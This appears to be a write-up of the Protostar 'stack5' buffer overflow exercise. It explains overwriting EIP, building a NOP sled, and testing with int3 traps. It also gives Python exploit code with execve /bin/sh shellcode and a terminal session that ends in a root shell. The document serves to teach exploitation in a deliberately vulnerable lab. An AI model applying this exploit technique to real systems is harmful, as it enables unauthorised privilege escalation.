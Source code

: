 As seen the eip is overwritten by 0x54's which is the hex for 'T'. Therefore, upto before T, we get a seg fault and T will rewrite the eip. To create a NOP sled, add 200 NOPs and then a shellcode from shellstorm. Placing the address next to that of the T's as the jump address at the eip, the interrupt works once but from the home directory gives an illegal instruction. This is so because of the address randomization and changes due to directory holding parameters etc. Therefore, NOP sled is added and then the address for the jump is made to 30 more than the immediately next stack pointer to aid the sled to reach the sigtrap. After this the code is the following.

```
import struct
a = struct.pack("I", 0xbffff6f0)
print("A"*19*4 + a + "\\\\x90"*100 + "\\\\xcc"*4)
```

Now to execute the exploit, the shellcode needs to be placed in place of the sig traps.

```
import struct
a = struct.pack("I", 0xbffff6f0)
print("A"*19*4 + a + "\\\\x90"*100 + "\\\\x31\\\\xc0\\\\x50\\\\x68\\\\x2f\\\\x2f\\\\x73\\\\x68\\\\x68\\\\x2f\\\\x62\\\\x69\\\\x6e\\\\x89\\\\xe3\\\\x89\\\\xc1\\\\x89\\\\xc2\\\\xb0\\\\x0b\\\\xcd\\\\x80\\\\x31\\\\xc0\\\\x40\\\\xcd\\\\x80")
```

By executing this code and piping the output to the executable the shell does work but exits. Execve replaces the current process and thus the current one exits which is connected to the stdin. After this process ends, the stdin gives EOF to the input of the shell that has been executed. This can be confirmed when the /bin/dash is executed and exits. Therefore, to keep the stdin open for the shell, the command cat is used which will help redirect the input to the shell and print the output to stdout.

```
user@protostar:~$ (python pp.py; cat) | /opt/protostar/bin/stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
```

Thus the exploit helps execute the shell to get root.

---
